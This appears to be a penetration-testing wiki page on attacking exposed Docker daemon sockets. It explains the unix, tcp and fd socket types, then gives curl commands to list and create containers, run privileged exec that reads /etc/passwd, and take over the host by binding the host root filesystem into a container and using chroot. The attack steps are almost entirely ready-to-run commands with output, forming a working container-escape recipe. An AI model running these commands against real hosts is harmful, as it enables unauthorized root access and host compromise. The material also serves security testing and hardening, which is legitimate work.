 The Docker daemon can listen for [Docker Engine API](https://docs.docker.com/engine/api/) requests via three different types of socket:
- `unix`
- `tcp`
- `fd`

By default, Docker runs through a non-networked UNIX socket, which is created at `/var/run/docker.sock` and requires either root permission or docker group membership.

{% hint style="info" %}
Additionally, pay attention to the runtime sockets of other high-level runtimes:
- dockershim: `unix:///var/run/dockershim.sock`
- containerd: `unix:///run/containerd/containerd.sock`
- cri-o: `unix:///var/run/crio/crio.sock`
- frakti: `unix:///var/run/frakti.sock`
- rktlet: `unix:///var/run/rktlet.sock`
- ...
{% endhint %}

A `tcp` socket is used to remotely access the Docker daemon, for which the default setup provides un-encrypted and un-authenticated direct access. It is conventional to use port **2375** for un-encrypted, and port **2376** for encrypted communication with the daemon.

On Systemd-based systems, communication with the Docker daemon can occur over the Systemd socket `fd://`.

Sometimes the Docker daemon can be accessed inside the container or over the network. It is often leads to commands execution on the host system and escape from the container.

# List of all containers

`curl` command to list all containers on the host over `unix` socket.

```bash
$ curl -s --unix-socket /var/run/docker.sock http:/containers/json
```

`curl` command to list all containers on the host over `tcp` socket.

```bash
$ curl -s http://<host>:<port>/containers/json
```

# Create a container

`curl` command to create container over `unix` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    --unix-socket /var/run/docker.sock \
    "http:/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

`curl` command to create container over `tcp` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

# Start the container

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/${CONTAINER_NAME}/start" \
    -X POST \
    -H "Content-Type: application/json" 
```

# Code execution in a container

First you need to create an instance of `exec` that will run in the container.

```bash
$ curl \
    -s \
    "http://<host>:<port>/containers/<container_id>/exec" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}'

HTTP/1.1 201 Created
...

{"Id":"913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3"}
```

Now that `exec` has been created, you need to run it.

```bash
$ export EXEC_ID=913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3
$ curl \
    -s \
    "http://<host>:<port>/exec/${EXEC_ID}/start"
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"Detach": false,"Tty": false}' \

HTTP/1.1 200 OK
...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

# Host takeover

To execute commands on the host system, start the Docker container and mount the host root directory on the container volume.

1. Download ubuntu image.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/images/create?fromImage=ubuntu&tag=latest" \
        -X POST \
        -H 'Content-Type: application/json'
    ```

2. Create a container.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/containers/create"
        -X POST \
        -H "Content-Type: application/json" \
        -d '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostfs/": {}},"HostConfig": {"Binds": ["/:/hostfs"]}}'
    ```

3. Start the container.
4. In order to execute commands on the host system, change the root directory.

    ```bash
    $ chroot /hostfs
    ```

# References

- [Write up: Escaping the Cloud Shell container](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-introduction/)
